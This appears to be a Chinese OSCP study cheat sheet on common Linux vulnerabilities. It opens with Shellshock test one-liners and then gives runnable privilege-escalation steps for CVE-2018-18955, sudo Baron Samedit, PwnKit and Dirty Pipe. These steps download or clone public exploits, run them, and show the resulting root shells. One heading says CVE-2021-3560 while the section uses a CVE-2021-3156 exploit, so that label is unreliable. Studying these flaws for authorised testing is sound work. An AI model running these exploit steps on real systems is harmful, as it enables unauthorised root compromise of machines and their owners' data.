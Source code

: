 ```yaml
---
layer: article
title: Common Linux Vulnerabilities
tags: oscp
---
```




## 破壳 CVE-2014-6271

```bash
env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
```

演示：<https://github.com/vulhub/vulhub/tree/3a513cc4d40b5bf9035a2774b82ab56c9676bda7/bash/CVE-2014-6271>

## 破壳变种  CVE-2014-7169

```bash
env X='() { (shellshocker.net)=>\' bash -c "echo date"; cat echo; rm ./echo
```

## 破壳变种  CVE-2014-7186

```bash
$ bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || 
echo "CVE-2014-7186 vulnerable, redir_stack"
```

## 破壳变种  CVE-2014-7187

```bash
$ (for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
```

## 破壳变种  CVE-2014-6278

```bash
shellshocker='() { echo You are vulnerable; }' bash -c shellshocker
```

## 破壳变种  CVE-2014-6277

```bash
bash -c "f() { x() { _;}; x() { _;} <<a; }" 2>/dev/null || echo vulnerable
```

## 脏牛 CVE-2016-5195

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## 大脏牛 CVE-2017-1000405

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## CVE-2018-18955



```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47166.zip
unzip 47166.zip
cd ldpreload
./exploit.ldpreload.sh

```

https://bugs.chromium.org/p/project-zero/issues/detail?id=1712

https://github.com/scheatkode/CVE-2018-18955

## CVE-2021-3560

### 帮助

<https://github.com/worawit/CVE-2021-3156>

### 实例

```bash
/tmp$ git clone https://github.com/worawit/CVE-2021-3156
/tmp$ cd CVE-2021-3156
/tmp/CVE-2021-3156$ python exploit_nss.py 
# whoami
root
```



## CVE-2021-4034

### 帮助

<https://github.com/berdav/CVE-2021-4034>

### 实例

```bash
/tmp$ git clone https://github.com/berdav/CVE-2021-4034
git clone https://github.com/berdav/CVE-2021-4034
Cloning into 'CVE-2021-4034'...
remote: Enumerating objects: 92, done.        
remote: Counting objects: 100% (36/36), done.        
remote: Compressing objects: 100% (17/17), done.        
remote: Total 92 (delta 24), reused 19 (delta 19), pack-reused 56        
Unpacking objects: 100% (92/92), done.
/tmp$ cd CVE*
cd CVE*
/tmp/CVE-2021-4034$ ls
ls
cve-2021-4034.c   dry-run  Makefile  README.md
cve-2021-4034.sh  LICENSE  pwnkit.c
/tmp/CVE-2021-4034$ pwd
pwd
/tmp/CVE-2021-4034
/tmp/CVE-2021-4034$ make
make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
/tmp/CVE-2021-4034$ whoami
whoami
www-data
/tmp/CVE-2021-4034$ ./cve-2021-4034
./cve-2021-4034
# whoami
whoami
root
```



## 脏管 CVE-2022-0847

1. poc by [Arinerron](https://github.com/Arinerron)

<https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c>

执行后密码root修改为`aaron`

2. poc by [r1is](https://github.com/r1is)

<https://github.com/r1is/CVE-2022-0847/blob/main/Dirty-Pipe.sh>

执行后获得root shell

```bash
git clone https://github.com/r1is/CVE-2022-0847.git
cd CVE-2022-0847
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```

还有几个待补充

**参考：[CVE-2022-0847 Linux 脏管漏洞分析与利用](https://www.freebuf.com/vuls/331378.html)**
